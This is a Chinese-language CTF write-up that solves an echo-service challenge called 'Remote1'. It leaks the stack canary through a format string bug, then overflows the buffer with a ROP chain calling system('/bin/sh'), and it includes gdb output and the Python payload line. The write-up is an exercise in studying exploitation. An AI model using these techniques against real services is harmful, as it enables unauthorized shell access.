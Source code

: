 Remote1
==========
這算是我第一次參加CTF比賽第一道解出來，也是唯一在時間內解出來的題目XD。

解題流程
----------
題目一執行就說是 echo service，除了 quit，輸入什麼就輸出什麼。但當我們輸入像這樣的東西：
	
	Welcome to the simple echo service

	[type 'quit' to quit] prompt> %lx
	40095f
就知道存在 format string 的漏洞。另外若是輸入達一定的長度，quit 離開時會出現 **stack smashing detected** 的警告，代表同時存在 buffer overflow 的漏洞，但有開啟 stack canary 進行保護。

所以想法是：先 leak 出 stack canary 在 stack 上存的的值，再 overflow 到 return address，利用程式自帶的 ```system``` 函式和 ```"/bin/sh"``` 字串開 shell。

首先確認第幾個參數開始是我們可以控制的

	Welcome to the simple echo service

	[type 'quit' to quit] prompt> AAAAAAAA%lx %lx %lx %lx %lx %lx %lx %lx %lx %lx
	AAAAAAAA40095f 0 71 7f7ef559a700 1e 23 30f5395620 4141414141414141 20786c2520786c25 20786c2520786c25
	
可以得知第 8 個參數開始是我們可控的內容。接下來確認一下 stack canary 存的變數的位址

	4007aa:       64 48 8b 04 25 28 00    mov    rax,QWORD PTR fs:0x28
	4007b1:       00 00
	4007b3:       48 89 45 f8             mov    QWORD PTR [rbp-0x8],rax

發現是放在 rbp-0x8 的地方。再來可以透過 gdb 觀察 buffer 和這個位址的偏移

	(gdb) p $rbp
	$1 = (void *) 0x7fffffffe350
	(gdb) x/8gx $rsp
	0x7fffffffe320: 0x0000000000000023      0x00007ffff7dd4620
	0x7fffffffe330: 0x4141414141414141      0x00007ffff7a9f90a
	0x7fffffffe340: 0x0000000000000000      0xfc9c8b7ab91cc800
	0x7fffffffe350: 0x00007fffffffe360      0x000000000040088a
	
因此我們可以從第 8+3=11 個參數得到該變數。

接著要進行 overflow 時，將剛剛 leak 出的值蓋在原來的位置上，如此一來便能夠通過 **__stack_chk_fail** 的檢查，成功蓋到 retuen address 而不會被擋下來。
利用 ROPgadget，可以找到 ```pop rdi ; ret``` 這個 gadget。透過他，我們就可以構造 **system("/bin/sh")** 這個 function call 來取得 shell。

```python
payload = 'A'*24 + p64(canary) + 'B'*8 + p64(pop_rdi_ret) + p64(binsh) + p64(system)
```
